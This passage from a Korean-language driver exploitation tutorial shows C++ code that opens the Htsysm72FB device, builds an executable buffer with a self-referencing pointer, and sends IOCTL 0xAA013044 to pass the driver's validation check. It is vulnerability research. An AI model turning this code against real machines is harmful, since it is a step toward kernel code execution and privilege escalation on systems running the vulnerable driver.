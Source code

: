그럼 이제 두 가지 조건을 성립시키기 위해 유저 애플리케이션 코드를 아래와 같이 수정합니다.

```c++
#include <stdio.h>
#include <Windows.h>

#define AA012044 0xAA012044
#define AA013044 0xAA013044

int main()
{
	const wchar_t* deviceName = L"\\\\.\\Htsysm72FB";
	HANDLE driver = CreateFile(deviceName, GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

	if (driver == INVALID_HANDLE_VALUE)
	{
		fprintf(stderr, "Unable to access device driver\n");
	}

	else {
		fprintf(stdout, "Device Handle : %p\n", driver);
		PBYTE inBuffer = (PBYTE)VirtualAlloc(0, 48, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
		DWORD bytesReturned = 0;
		DWORD outBuffer = 0;
		*(PULONG_PTR)inBuffer = (ULONG_PTR)(inBuffer + 8); // inBuffer(0x12345670)에 inBuffer+8 값(0x12345678)을 inBuffer에 저장
		ULONG_PTR target = (ULONG_PTR)(inBuffer + 8); // inBuffer+8 값을 target 변수에 넣어 DeviceIoControl 함수에 전달

		if (DeviceIoControl(driver, AA013044, &target, 8, &outBuffer, 4, &bytesReturned, NULL))
		{
			fprintf(stdout, "Call DeviceIoControl\n");
		}
		else 
		{
			fprintf(stderr, "Call DeviceIoControl Failed\n");
		}
		CloseHandle(driver);
	}
}
```

주석의 내용을 잘 살펴봐야 합니다. 위의 조건들에 부합하기 위한 코드입니다. 예상컨데 드라이버의 `SuspiciousFunction(sub_10524)`에 rcx 값에는 `inBuffer+8` 값이 전달되며 `[rax-8](inBuffer+8)`에는 `inBuffer+8`의 값이 존재하므로 해당 로직을 통과하게 됩니다.

유저모드에서 확인하면 아래와 같이 원하는대로 메모리에 할당이 되었습니다.
